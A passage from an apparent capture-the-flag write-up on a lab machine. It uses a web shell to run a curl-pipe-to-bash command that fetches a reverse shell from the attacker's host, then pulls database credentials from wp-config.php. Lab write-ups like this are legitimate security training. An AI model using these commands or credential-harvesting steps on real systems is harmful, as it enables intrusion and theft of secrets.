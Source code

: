 And yes! we have code exec

let's get a reverse shell on the machine


```url
http://10.10.10.223/cmd.php?cmd=curl%20http://10.10.14.105:8000/x|bash
```

> x is just a reverse shell https://resh.vercel.app/

<img src="foothold.png">


---

# <p style="color:RED">User flag  </p>

---


Let's check the `wp-config.php` for creds

```

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

```


<img src="user.png">


---

# <p style="color:RED">Root flag  </p>

---